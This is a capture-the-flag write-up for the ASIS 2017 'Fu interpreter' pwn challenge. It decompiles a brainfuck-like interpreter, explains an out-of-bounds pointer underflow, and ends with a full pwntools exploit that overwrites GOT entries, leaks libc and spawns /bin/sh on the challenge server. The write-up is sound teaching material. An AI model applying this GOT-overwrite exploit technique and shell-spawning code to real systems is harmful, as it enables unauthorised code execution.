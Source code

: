 [](ctf=asis-ctf-quals-2017)
[](type=exploit)
[](tags=brainfuck)
[](tools=pwntools)
[](techniques=GOT overwrite)

# Fu interpreter (pwn-101)

We are given a [file](../fulang_e62955ff8cc20de534a29321b80fa246ddf9763f).

```bash
$ file fulang_e62955ff8cc20de534a29321b80fa246ddf9763f
fulang_e62955ff8cc20de534a29321b80fa246ddf9763f: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=746b0bdb7782ec102b56e6b27507d264920be051, not stripped
$ checksec ./fulang_e62955ff8cc20de534a29321b80fa246ddf9763f
[*] '/tmp/fulang_e62955ff8cc20de534a29321b80fa246ddf9763f'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```
The file is not stripped, so the decompilation is quite neat. There are only two functions of interest *main* and *fu_interpreter*.

```c
int fu_interpreter(char a1, char a2)
{
  _BYTE *v2; // ebx@13
  char v3; // dl@15
  signed int result; // eax@20

  if ( a1 == ':' )
  {
    if ( a2 == '<' )
      --fu;
    if ( a2 == '>' )
      ++fu;
    if ( a2 == '+' )
      ++*(_BYTE *)fu;
    if ( a2 == '-' )
      --*(_BYTE *)fu;
    if ( a2 == ':' )
      putchar(*(_BYTE *)fu);
    if ( a2 == '.' )
    {
      v2 = (_BYTE *)fu;
      *v2 = getchar();
    }
    if ( a2 == '_' )
    {
      v3 = (*(_BYTE *)fu)++;
      *(_BYTE *)fu ^= v3;
    }
    if ( a2 == '(' )
      puts("Not implemented yet!");
    if ( a2 == ')' )
      puts("Not implemented yet!");
    result = 1;
  }
  else
  {
    result = 0;
  }
  return result;
}

int main(int argc, const char **argv, const char **envp)
{
  int v4; // edi@6
  signed __int32 i; // [sp+10h] [bp-DCh]@1
  signed __int32 v6; // [sp+14h] [bp-D8h]@1
  char s[4]; // [sp+18h] [bp-D4h]@1
  char v8; // [sp+1Ch] [bp-D0h]@1
  int v9; // [sp+E0h] [bp-Ch]@1
  int *v10; // [sp+E8h] [bp-4h]@1

  fu = (int)&data;
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  printf("%s", "[Fulang service]\nEnter your code:");
  fgets(s, 150, stdin);
  v6 = strlen(s);
  for ( i = 0; i < v6; i += 2 )
  {
    if ( !fu_interpreter(s[i], s[i + 1]) )
    {
      puts("Incorrect syntax, RTFM!");
      break;
    }
  }
  return 0;
}
```
The logic is very simple. It takes 150 bytes of brainfuck-like code and then evaluates it. One thing to note is *fu* and *data* are global variables. Array *data* is used as tape for the program to operate but since there are no bounds check on it, we can operate past it.

```bash
$ gdb -q ./fulang_e62955ff8cc20de534a29321b80fa246ddf9763f
Loaded 105 commands.  Type pwndbg [filter] for a list.
Reading symbols from ./fulang_e62955ff8cc20de534a29321b80fa246ddf9763f...(no debugging symbols found)...done.
pwndbg> p/x &fu
$1 = 0x804a060
pwndbg> p/x &data
$2 = 0x804a080
```
During execution in main current cell position is maintained in *fu* variable and it can be changed with < or >. Since we can have 75 operations max from the brainfuck code, we can control many bytes out of *data*. As we see above the actual *fu* is located only 0x20 bytes from *data*, we can underflow to *fu* and change it to any address such that in the next call of *fu_interpreter* we can gain arbitrary read and write on that address.

Since we now have arbitrary read and write and Partial RELRO, we can leak and patch GOT entries.
The exploitation is quite simple now.
  + First patch GOT['puts'] to main. This way we can reset *fu* on every puts()
  + Leak GOT['__libc_start_main']. We already have the system libc from the hint in the problem. This helps calculating address of system() in libc
  + Call puts() and restart execution to reset *fu*.
  + Patch GOT['strlen'] to libc system address since strlen takes only one param which is the user input, perfect to patch for system()
  + Restart main() again and "/bin/sh"

```python
from pwn import *

context(arch='i386', os='linux', log_level='info')
local = len(sys.argv) == 1
main = 0x80486de

if not local:
	s=remote('69.90.132.40',4001)
	__libc_start_main_base = 0x18540
	system_base = 0x3a940
else:
	s=process('./fulang_e62955ff8cc20de534a29321b80fa246ddf9763f')
	#gdb.attach(s)
	raw_input()
	print hex(u32(s.leak(0x804a020,4)))
	print s.libs()
	__libc_start_main_base = 0x19970
	system_base = 0x3e3e0
p = ":(:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:.:.:>:.:>:.:>:.:>:::>:::>:::>:::>:::>:::>:::>::"
p += ":"*(146-(len(p)))
p += "??" #force puts() to restart main()
s.recvline()
s.send(p)
s.send(":\x1c"+p32(main)) # patch GOT['puts'] to main
s.recvline()
s.recv(4) #leak strlen
__libc_start_main_leak = u32(s.recv(4)) # leak __libc_start_main
libc_base = __libc_start_main_leak - __libc_start_main_base
system = libc_base + system_base
print "leak",hex(__libc_start_main_leak), hex(system)
time.sleep(2)
p = ":<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:<:.:<:.:>:.:>:.:>:.:>"
p += ":"*(146-(len(p)))
p += "??" #force puts() to restart main()
s.recvline()
s.send(p)

s.send(":\x21"+p32(system)) #patch GOT['strlen'] to system
s.sendline("/bin/sh")
s.interactive()
```


[![asciicast](https://asciinema.org/a/112058.png)](https://asciinema.org/a/112058)
